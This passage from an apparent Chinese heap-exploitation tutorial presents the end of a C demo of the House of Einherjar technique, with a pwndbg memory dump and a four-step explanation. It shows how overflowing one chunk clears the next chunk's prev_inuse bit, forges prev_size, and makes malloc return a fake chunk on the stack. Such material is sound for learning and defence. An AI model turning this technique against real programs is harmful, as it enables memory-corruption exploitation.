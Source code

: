```c
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;

    //Change the fake chunk's size to reflect b's new prev_size
    printf("\nModify fake chunk's size to reflect b's new prev_size\n");
    fake_chunk[1] = fake_size;

    // 4
    // free b and it will consolidate with our fake chunk
    printf("Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
    free(b);
    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    //if we allocate another chunk before we free b we will need to 
    //do two things: 
    //1) We will need to adjust the size of our fake chunk so that
    //fake_chunk + fake_chunk's size points to an area we control
    //2) we will need to write the size of our fake chunk
    //at the location we control. 
    //After doing these two things, when unlink gets called, our fake chunk will
    //pass the size(P) == prev_size(next_chunk(P)) test. 
    //otherwise we need to make sure that our fake chunk is up against the
    //wilderness

    printf("\nNow we can call malloc() and it will begin in our fake chunk\n");
    d = malloc(0x200);
    printf("Next malloc(0x200) is at %p\n", d);
}
```

代码分为4个步骤：

1. a指向一块0x38的内存，在栈上构造了一个fake chunk，并改写其pre_size,size,fd,bk,fd_nextsize,bk_nextsize字段

    ```bash
    pwndbg> x/8gx fake_chunk 
    0x7fffffffdd70: 0x0000000000000100 0x0000000000000100
    0x7fffffffdd80: 0x00007fffffffdd70 0x00007fffffffdd70
    0x7fffffffdd90: 0x00007fffffffdd70 0x00007fffffffdd70
    0x7fffffffdda0: 0x00007fffffffde90 0x8e07974ff9e77c00
    ```

2. b指向一块0xf8实际0x100的内存，并通过溢出a来改写b的size字段，使其pre_inuse字段为0。

3. 计算chunk(b)至fake chunk的距离，并将其写入a的最后一个字节，即b的prev_size字段，同时也需要改写fake chunk的size字段，绕过检查

4. 最后，释放b，造成b与fake chunk合并，并通过malloc获取fake chunk的内存块
